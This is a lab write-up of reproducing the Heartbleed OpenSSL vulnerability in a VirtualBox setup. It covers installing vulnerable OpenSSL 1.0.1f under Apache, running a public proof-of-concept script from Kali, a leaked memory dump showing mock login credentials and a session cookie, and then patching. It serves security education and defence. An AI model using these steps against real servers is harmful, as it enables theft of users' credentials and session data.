

`Technical Assessment HTX` `Damien Choy`

# Documentation: Exploiting Heartbleed Vulnerability on Apache using OpenSSL 1.0.1f

**Signficance of vulnerability:**

The Heartbleed vulnerability is particularly dangerous because of its wide-reaching impact and the ease with which it can be exploited. It allows attackers to retrieve sensitive information from the server's memory, which could include encryption keys, personal data, and more. The attack leaves no trace, making detection extremely difficult, further amplifying the risk in real-world systems. Some potatntion impacts would be that compromised systems by Heartbleed could suffer from reputation damage, financial loss, and loss of customer trust.

**Objective:**
	
 The goal was to exploit the Heartbleed vulnerability (CVE-2014-0160) by running a vulnerable version of OpenSSL (1.0.1f) on an Apache web server.
 ________________________________________
**Obstacles and Troubleshooting:**

During the setup and exploitation process, several obstacles were encountered, including issues with networking, Apache configuration, and OpenSSL version mismatches. Below is a detailed account of these challenges and how they were resolved.
________________________________________
## Steps Taken:
1. [Set Up the Virtual Environment](#1-set-up-the-virtual-environment)
2. [Install Apache and OpenSSL 1.0.1f on the Target VM](#2-install-apache-and-openssl-101f-on-the-target-vm)
3. [Configure Apache to Run OpenSSL 1.0.1f](#3-configure-apache-to-run-openssl-101f)
4. [Verify Apache and OpenSSL 1.0.1f Configuration](#4-verify-apache-and-openssl-101f-configuration)
5. [Create a simple login page for Apache](#5-create-a-simple-login-page-for-apache)
6. [Test the Heartbleed Vulnerability Using PoC Script](#6-test-the-heartbleed-vulnerability-using-poc-script)
7. [Confirm Successful Exploit](#7-confirm-successful-exploit)
8. [Patching](#8-patching)
9. [Conclusion](#9-conclusion)
________________________________________

## 1. Set Up the Virtual Environment
- Tools Used: VirtualBox, Kali Linux, Ubuntu.
  	- [Download VirtualBox 7.1.2 for Windows](https://download.virtualbox.org/virtualbox/7.1.2/VirtualBox-7.1.2-164945-Win.exe)
	- [Download Ubuntu 24.04.1 Desktop (AMD64)](https://releases.ubuntu.com/noble/ubuntu-24.04.1-desktop-amd64.iso)
  	- [Download Kali Linux 2024.3 VirtualBox (AMD64)](https://cdimage.kali.org/kali-2024.3/kali-linux-2024.3-virtualbox-amd64.7z)

- Objective: Set up a Kali Linux VM (for exploitation) and an Ubuntu VM (as the target) on VirtualBox.
### Details:
- The target VM was configured to run Apache and OpenSSL.
- Both VMs were placed in bridged mode to ensure they were on the same network for communication.
### Rationale:
- Kali Linux is used for penetration testing, while the Ubuntu VM runs vulnerable services.
- Obstacle: Network connectivity issue between Kali and the target VM.
- Symptoms: Running nmap or ping from Kali to the target VM showed that the target was unreachable.

### Troubleshooting:
	a.	Verified both VMs were on the same network (bridged adapter) in VirtualBox.
	b.	Checked the IP addresses using ip a on both VMs.
	c.	Resolved by switching both VMs to bridged mode, ensuring they received IPs on the same subnet.
> Solution: After setting both VMs to bridged mode, connectivity was restored, and nmap confirmed that the target VM was reachable.
________________________________________

## 2. Install Apache and OpenSSL 1.0.1f on the Target VM
Objective: Install a version of OpenSSL vulnerable to Heartbleed (OpenSSL 1.0.1f) on the Ubuntu VM target.

Commands:
```
# Update the package list to get information on the newest versions of packages and their dependencies
sudo apt update

# Install the Apache2 web server package
sudo apt install apache2 -y

# Download the specific version (1.0.1f) of OpenSSL, which is known to be vulnerable to Heartbleed (CVE-2014-0160)
wget https://www.openssl.org/source/old/1.0.1/openssl-1.0.1f.tar.gz

# Extract the contents of the OpenSSL tarball (compressed file) into the current directory
tar -xzvf openssl-1.0.1f.tar.gz

# Navigate into the newly extracted OpenSSL directory
cd openssl-1.0.1f

# Configure the OpenSSL installation, checking the environment and setting up necessary parameters for compilation
./config

# Compile (build) the OpenSSL source code into executable binaries
make

# Install the newly compiled OpenSSL version on the system
sudo make install
```
### Rationale:
OpenSSL 1.0.1f is the specific version known to be vulnerable to Heartbleed. Apache is used to host a web service that utilizes SSL, making it a viable target for the exploit.
- Obstacle: Apache was using the wrong version of OpenSSL (3.0.14), which was not vulnerable to Heartbleed.
- Symptoms: Even though OpenSSL 1.0.1f was installed, Apache continued using OpenSSL 3.0.14, as shown in the Apache logs (/var/log/apache2/error.log).

### Troubleshooting:
1.	Ran openssl version to confirm that the command-line OpenSSL was using 1.0.1f.
2.	Checked Apache’s logs and found that it was linked to OpenSSL 3.0.14.
3.	Attempted to force Apache to use the 1.0.1f version by updating the LD_LIBRARY_PATH and restarting Apache, but Apache continued using OpenSSL 3.0.14.
________________________________________

## 3. Configure Apache to Run OpenSSL 1.0.1f
Objective: Instead of disabling SSL in Apache, configure Apache to run the vulnerable OpenSSL 1.0.1f version. This ensures Apache uses the specific version of OpenSSL that is vulnerable to Heartbleed.

Steps to configure:

1.	Remove the default OpenSSL version installed with the system packages, or ensure it is not loaded by Apache:
```
sudo apt remove --purge openssl
```

2.	Create symbolic links to force Apache to use the libraries from OpenSSL 1.0.1f:
```
sudo mv /usr/lib/x86_64-linux-gnu/libssl.so /usr/lib/x86_64-linux-gnu/libssl.so.backup
sudo mv /usr/lib/x86_64-linux-gnu/libcrypto.so /usr/lib/x86_64-linux-gnu/libcrypto.so.backup
sudo ln -s /usr/local/ssl/lib/libssl.so.1.0.0 /usr/lib/x86_64-linux-gnu/libssl.so
sudo ln -s /usr/local/ssl/lib/libcrypto.so.1.0.0 /usr/lib/x86_64-linux-gnu/libcrypto.so
```

3.	Update the Apache environment configuration to point to the correct OpenSSL libraries:
```
sudo nano /etc/apache2/envvars
```

4.  Add the following line to set LD_LIBRARY_PATH to the directory containing OpenSSL 1.0.1f:
```
export LD_LIBRARY_PATH=/usr/local/ssl/lib:$LD_LIBRARY_PATH
```

5.	Restart Apache to ensure it uses the correct OpenSSL version:
```
sudo systemctl restart apache2
```

> Rationale: This approach forces Apache to use OpenSSL 1.0.1f without needing to run OpenSSL as a standalone server. It also simplifies the setup, as Apache continues handling SSL while using the vulnerable version of OpenSSL.

________________________________________
## 4. Verify Apache and OpenSSL 1.0.1f Configuration

Objective: Confirm that Apache is running OpenSSL 1.0.1f and is vulnerable to Heartbleed.

Commands:
1.	Check Apache’s SSL version to ensure it's using OpenSSL 1.0.1f:
```
sudo apache2ctl -M | grep ssl
```
2.	Test the OpenSSL version used by Apache:
```
openssl s_client -connect localhost:443
```

Output:
```
SSL handshake has read 2267 bytes and written 454 bytes
Verification: OK
New, TLSv1/SSLv3, Cipher is ECDHE-RSA-AES256-GCM-SHA384
Server public key is 2048 bit
Secure Renegotiation IS supported
...
SSL-Session:
    Protocol  : TLSv1.2
    Cipher    : ECDHE-RSA-AES256-GCM-SHA384
    Session-ID: ...
    Session-ID-ctx:
    Master-Key: ...
    OpenSSL version: OpenSSL 1.0.1f 6 Jan 2014
```
> Rationale: This confirms that Apache is now using OpenSSL 1.0.1f for SSL/TLS communication, making it vulnerable to Heartbleed.
________________________________________
## 5. Create a simple login page for Apache

Objective: To set up a simple login page that interacts with users via HTML and PHP, enabling user authentication through a web interface hosted on the Apache server.

Steps to Implement the Login Page:
1. Create a Directory for the Login Project:
Establish a dedicated directory within the Apache web root to organize the login files.
```
sudo mkdir /var/www/html/login-website
```
2. Create the HTML Login Form: Develop the front-end of the login page using HTML, which captures user credentials.
```
sudo nano /var/www/html/login-website/index.html
```
HTML Code:
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login Page</title>
    <link rel="stylesheet" href="style.css"> <!-- Link to CSS for styling -->
</head>
<body>
    <div class="login-container">
        <h2>Login</h2>
        <form action="login.php" method="POST">
            <div class="form-group">
                <label for="username">Username:</label>
                <input type="text" id="username" name="username" required>
            </div>
            <div class="form-group">
                <label for="password">Password:</label>
                <input type="password" id="password" name="password" required>
            </div>
            <button type="submit">Login</button>
        </form>
    </div>
</body>
</html>
```
3. Create the PHP Script for Authentication:
This PHP script will handle the login logic, verifying user credentials.
```
sudo nano /var/www/html/login-website/login.php
```
PHP Code:
```
<?php
session_start();

// Replace these with your own username and password
$valid_username = "user";
$valid_password = "pass";

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $username = $_POST['username'];
    $password = $_POST['password'];

    if ($username === $valid_username && $password === $valid_password) {
        // Login successful
        $_SESSION['username'] = $username;
        echo "<h2>Welcome, " . htmlspecialchars($username) . "!</h2>";
        echo "<p><a href='logout.php'>Logout</a></p>";
    } else {
        // Login failed
        echo "<h2>Login failed. Invalid username or password.</h2>";
        echo "<p><a href='index.html'>Try again</a></p>";
    }
}
?>
```
> Rationale:
>This section outlines the process of creating a simple login page hosted on an Apache server. The page leverages HTML for the front-end and PHP for the back-end authentication logic, allowing for basic user management through a web interface. The fields for username and password are particularly significant because they provide valuable data that can be targeted using the Heartbleed exploit. By exploiting the vulnerability, we can potentially access sensitive information from the server’s memory, such as usernames and passwords entered by users on this login page. This demonstrates the critical need for proper security measures to mitigate risks associated with known vulnerabilities like Heartbleed.


________________________________________
## 6. Test the Heartbleed Vulnerability Using PoC Script
Objective: Exploit the Heartbleed vulnerability using a proof-of-concept (PoC) script from the Kali Linux VM.

1. Login with a mock username and password like 
> username123
> password123
> 


2. Run the python script by [Heartbleed PoC Script by Akshat Mittal](https://gist.github.com/akshatmittal/10279360) 

Command (on Kali Linux - attacking VM):
```
python3 heartbleed-poc.py -p 443 192.168.10.146
```

> Credit: The heartbleed-poc.py script used in this demonstration was obtained from the gist by Akshat Mittal, which was adapted to run on Python 3.

> Explanation:

>- This PoC sends a malformed heartbeat request to the target server, exploiting the vulnerability in OpenSSL 1.0.1f.
>- The exploit triggers a memory leak, allowing the attacker to read sensitive data from the server's memory.
________________________________________
## 7. Confirm Successful Exploit

Result:

- The exploit returned a memory dump from the server, confirming that the Heartbleed vulnerability was successfully exploited.
- Example of a successful response:
```
┌──(kali㉿kali)-[~/heartbleed-poc]
└─$ python3 heartbleed-poc.py -p 443 192.168.10.146
Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 828
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 20 3F 30 0D  ....#....... ?0.
  00e0: 0A 73 65 63 2D 63 68 2D 75 61 2D 70 6C 61 74 66  .sec-ch-ua-platf
  00f0: 6F 72 6D 3A 20 22 57 69 6E 64 6F 77 73 22 0D 0A  orm: "Windows"..
  0100: 4F 72 69 67 69 6E 3A 20 68 74 74 70 73 3A 2F 2F  Origin: https://
  0110: 31 39 32 2E 31 36 38 2E 31 30 2E 31 34 36 0D 0A  192.168.10.146..
  0120: 43 6F 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70  Content-Type: ap
  0130: 70 6C 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D  plication/x-www-
  0140: 66 6F 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D  form-urlencoded.
  0150: 0A 55 70 67 72 61 64 65 2D 49 6E 73 65 63 75 72  .Upgrade-Insecur
  0160: 65 2D 52 65 71 75 65 73 74 73 3A 20 31 0D 0A 55  e-Requests: 1..U
  0170: 73 65 72 2D 41 67 65 6E 74 3A 20 4D 6F 7A 69 6C  ser-Agent: Mozil
  0180: 6C 61 2F 35 2E 30 20 28 57 69 6E 64 6F 77 73 20  la/5.0 (Windows 
  0190: 4E 54 20 31 30 2E 30 3B 20 57 69 6E 36 34 3B 20  NT 10.0; Win64; 
  01a0: 78 36 34 29 20 41 70 70 6C 65 57 65 62 4B 69 74  x64) AppleWebKit
  01b0: 2F 35 33 37 2E 33 36 20 28 4B 48 54 4D 4C 2C 20  /537.36 (KHTML, 
  01c0: 6C 69 6B 65 20 47 65 63 6B 6F 29 20 43 68 72 6F  like Gecko) Chro
  01d0: 6D 65 2F 31 32 39 2E 30 2E 30 2E 30 20 53 61 66  me/129.0.0.0 Saf
  01e0: 61 72 69 2F 35 33 37 2E 33 36 0D 0A 41 63 63 65  ari/537.36..Acce
  01f0: 70 74 3A 20 74 65 78 74 2F 68 74 6D 6C 2C 61 70  pt: text/html,ap
  0200: 70 6C 69 63 61 74 69 6F 6E 2F 78 68 74 6D 6C 2B  plication/xhtml+
  0210: 78 6D 6C 2C 61 70 70 6C 69 63 61 74 69 6F 6E 2F  xml,application/
  0220: 78 6D 6C 3B 71 3D 30 2E 39 2C 69 6D 61 67 65 2F  xml;q=0.9,image/
  0230: 61 76 69 66 2C 69 6D 61 67 65 2F 77 65 62 70 2C  avif,image/webp,
  0240: 69 6D 61 67 65 2F 61 70 6E 67 2C 2A 2F 2A 3B 71  image/apng,*/*;q
  0250: 3D 30 2E 38 2C 61 70 70 6C 69 63 61 74 69 6F 6E  =0.8,application
  0260: 2F 73 69 67 6E 65 64 2D 65 78 63 68 61 6E 67 65  /signed-exchange
  0270: 3B 76 3D 62 33 3B 71 3D 30 2E 37 0D 0A 53 65 63  ;v=b3;q=0.7..Sec
  0280: 2D 46 65 74 63 68 2D 53 69 74 65 3A 20 73 61 6D  -Fetch-Site: sam
  0290: 65 2D 6F 72 69 67 69 6E 0D 0A 53 65 63 2D 46 65  e-origin..Sec-Fe
  02a0: 74 63 68 2D 4D 6F 64 65 3A 20 6E 61 76 69 67 61  tch-Mode: naviga
  02b0: 74 65 0D 0A 53 65 63 2D 46 65 74 63 68 2D 55 73  te..Sec-Fetch-Us
  02c0: 65 72 3A 20 3F 31 0D 0A 53 65 63 2D 46 65 74 63  er: ?1..Sec-Fetc
  02d0: 68 2D 44 65 73 74 3A 20 64 6F 63 75 6D 65 6E 74  h-Dest: document
  02e0: 0D 0A 52 65 66 65 72 65 72 3A 20 68 74 74 70 73  ..Referer: https
  02f0: 3A 2F 2F 31 39 32 2E 31 36 38 2E 31 30 2E 31 34  ://192.168.10.14
  0300: 36 2F 6C 6F 67 69 6E 2E 68 74 6D 6C 0D 0A 41 63  6/login.html..Ac
  0310: 63 65 70 74 2D 45 6E 63 6F 64 69 6E 67 3A 20 67  cept-Encoding: g
  0320: 7A 69 70 2C 20 64 65 66 6C 61 74 65 2C 20 62 72  zip, deflate, br
  0330: 2C 20 7A 73 74 64 0D 0A 41 63 63 65 70 74 2D 4C  , zstd..Accept-L
  0340: 61 6E 67 75 61 67 65 3A 20 65 6E 2D 55 53 2C 65  anguage: en-US,e
  0350: 6E 3B 71 3D 30 2E 39 0D 0A 43 6F 6F 6B 69 65 3A  n;q=0.9..Cookie:
  0360: 20 50 48 50 53 45 53 53 49 44 3D 35 66 30 6A 6A   PHPSESSID=5f0jj
  0370: 66 6C 75 62 76 62 70 75 70 32 64 61 30 65 37 71  flubvbpup2da0e7q
  0380: 74 61 34 69 74 0D 0A 0D 0A 75 73 65 72 6E 61 6D  ta4it....usernam
  0390: 65 3D 75 73 65 72 6E 61 6D 65 31 32 33 26 70 61  e=username123&pa
  03a0: 73 73 77 6F 72 64 3D 70 61 73 73 77 6F 72 64 31  ssword=password1
  03b0: 32 33 47 82 14 08 73 10 C5 3A FF 5B E3 0A 87 72  23G...s..:.[...r
  03c0: 6E 0C 6E 62 89 45 A6 24 5F 08 35 E1 E1 52 00 FA  n.nb.E.$_.5..R..
  03d0: A9 6A 65 CF 9E 4B A2 16 31 19 82 A6 18 CB E8 8C  .je..K..1.......
```

Readable response: @SC[r+H9w3f"!98532ED/AI42# ?0sec-ch-ua-platform: "Windows"Origin: https://192.168.10.146Content-Type: application/x-www-form-urlencodedUpgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Sec-Fetch-Site: same-originSec-Fetch-Mode: navigateSec-Fetch-User: ?1Sec-Fetch-Dest: documentReferer: https://192.168.10.146/login.htmlAccept-Encoding: gzip, deflate, br, zstdAccept-Language: en-US,en;q=0.9Cookie: PHPSESSID=5f0jjflubvbpup2da0e7qta4it**username=username123&password=password123**Gs:[rnnbE$_5RjeK1I5D8R'<|L#7kf&[DHU<s+{e+j2y1HQSu2qGz4ctP5s)v0LGLgZj73:5@2kx@RD@k4U2|SzZ1f"gdaYIpfLGMtWU_kb4dqQ*Kt4 i&SAS(S]e95G2FC%>4vDm>)ZkILWo5S=mNu2R#%J(na.<P|\n$VY9U9Lh)&@GQ5[hG"OZ0[upb6B\SStdCtl ]D*y$q1n:9%%?P/}F-^|v=}x=&Z4}< #~9X,GbDih2+ch2http/1.1m S:<^/`i_\8vr3bm5^(h[z!;E<SPiA\X{n=1ML},}~*gB\cx~dux4v@#XRpMMcss'6)?)|"GoDNB{h0%9t>g#+m&0_e=?W1/ueJ-

> Rationale: This memory dump confirms that the Heartbleed vulnerability exists and that data from the server’s memory was exposed.
> In this case, it was the username and password entered into the Apache login fields.

>**username=username123&password=password123**
________________________________________

## 8. Patching
After successfully exploiting the Heartbleed vulnerability in OpenSSL 1.0.1f, it is crucial to patch the system to secure it against future exploits. Below are the steps I followed to patch the vulnerability by upgrading OpenSSL and Apache to their latest versions and ensuring that the vulnerability is no longer exploitable.

**Steps to Patch the Vulnerability:**
1.	Reinstall OpenSSL to the Latest Version: First, I upgraded OpenSSL to the latest stable version that includes the fix for the Heartbleed vulnerability (CVE-2014-0160). In this case, I used OpenSSL 3.0.14.
```
sudo apt update
sudo apt install --only-upgrade openssl -y
```
>**Rationale:**
>The OpenSSL 1.0.1f version contains the Heartbleed vulnerability, which allows attackers to exploit the server through a malformed heartbeat request. >Upgrading to OpenSSL 1.0.1g or later (which includes the Heartbleed fix) prevents this vulnerability.

2.	Reinstall Apache to Ensure Compatibility with Latest OpenSSL: After upgrading OpenSSL, I reinstalled Apache to ensure that it is using the latest OpenSSL libraries.
```
sudo apt purge apache2 -y
sudo apt autoremove -y
sudo apt install apache2 -y
```
>**Rationale:**
>By reinstalling Apache, I ensured that the web server uses the updated OpenSSL version, eliminating any linkage with older versions that could be >vulnerable.
3.	Verify the OpenSSL Version in Apache: After reinstalling OpenSSL and Apache, I confirmed that Apache was using the upgraded version of OpenSSL.
```
openssl version
sudo apache2ctl -M | grep ssl
ldd /usr/sbin/apache2 | grep ssl
```
Expected Output:
```
vboxuser@vbox:~$ openssl version
OpenSSL 3.0.14 4 Jun 2024 (Library: OpenSSL 3.0.14 4 Jun 2024)
```

This confirmed that Apache was linked to the updated OpenSSL 3.0.14 libraries, which include the Heartbleed fix.

4.	Test the Patched System: From the attacking machine, I reran the Heartbleed proof-of-concept (PoC) to confirm that the vulnerability was no longer present.

Command (on Kali Linux):
```
python3 heartbleed-poc.py -p 443 192.168.10.146
```
Result:
```
┌──(kali㉿kali)-[~/heartbleed-poc]
└─$ python3 heartbleed-poc.py -p 443 192.168.10.146
Connecting...
Sending Client Hello...
Waiting for Server Hello...
... received message: type = 21, ver = 0302, length = 2
Unexpected EOF receiving record header - server closed connection
Server closed connection without sending Server Hello.
```
>**Rationale:**
>The server closed the connection, and no memory leak was detected. This confirms that the OpenSSL version is patched and the Heartbleed vulnerability has >been mitigated.
>
Explanation of what the Patch fixed:
- Heartbleed Vulnerability (CVE-2014-0160): The Heartbleed vulnerability allowed attackers to send malformed heartbeat requests to a vulnerable OpenSSL server, which in turn would return large amounts of sensitive memory data, potentially exposing private keys, session tokens, and user credentials.
- The Patch: The OpenSSL patch (starting with version 1.0.1g) fixes this vulnerability by ensuring that the server properly validates the length of the heartbeat request before responding, thereby preventing the memory leak. OpenSSL versions 1.0.1g and later are safe from Heartbleed.
- How the Patch Prevents the Exploit: The patched version ensures that malformed requests no longer trigger an out-of-bounds memory read, preventing attackers from accessing sensitive data stored in the server's memory.

## 9. Conclusion
By configuring Apache to run OpenSSL 1.0.1f, I was able to successfully exploit the Heartbleed vulnerability without disabling SSL on Apache. This approach allowed direct control over the vulnerable OpenSSL version while keeping Apache as the primary SSL handler.
This setup confirms that OpenSSL 1.0.1f is vulnerable and provides an educational understanding of how the Heartbleed vulnerability works in practice.

The Heartbleed vulnerability (CVE-2014-0160) is significant because it exposes sensitive data from a server’s memory, including private keys, session cookies, and potentially user credentials. This vulnerability affects a wide range of systems that use vulnerable versions of OpenSSL, making it a high-risk issue for internet security as it allows attackers to read protected information without leaving a trace.

By configuring Apache to run OpenSSL 1.0.1f and successfully exploiting the vulnerability, we demonstrated how attackers can use a simple malformed heartbeat request to access critical memory data. This experiment not only provides an educational insight into the nature of memory-based vulnerabilities but also illustrates the broad impact such flaws can have on confidentiality and security.

Once patched, upgrading to a version of OpenSSL that includes the fix (1.0.1g or later) eliminates the vulnerability. This mitigation is crucial because it prevents unauthorized memory access, significantly improving the server’s overall security posture. The patch ensures proper validation of heartbeat requests, safeguarding the integrity and confidentiality of data stored in memory.

### Future works
Future work would include integrating the ELK stack (Elasticsearch, Logstash, and Kibana) for enhanced monitoring and logging of the system. The ELK stack can help track abnormal behavior in the server’s SSL/TLS communications by providing real-time monitoring and in-depth analysis of logs.

- Elasticsearch can be used to store and index log data, allowing for fast searches and queries across large amounts of log data.
- Logstash acts as the data pipeline, collecting logs from Apache and other system components, filtering out irrelevant data, and structuring it in a way that can be easily ingested by Elasticsearch.
- Kibana provides a powerful visualization layer, making it easy to create dashboards that highlight trends and anomalies in SSL traffic, such as unusual handshake patterns or repeated attempts to exploit vulnerabilities.
  
By utilizing the ELK stack, administrators can better detect attempted exploits, unusual traffic patterns, or other indicators of compromise. This not only improves incident response times but also helps with post-exploit forensics by enabling a detailed examination of logs. Additionally, setting up alerting mechanisms based on key events in logs (such as invalid SSL/TLS requests) will further fortify the system against future threats.
________________________________________


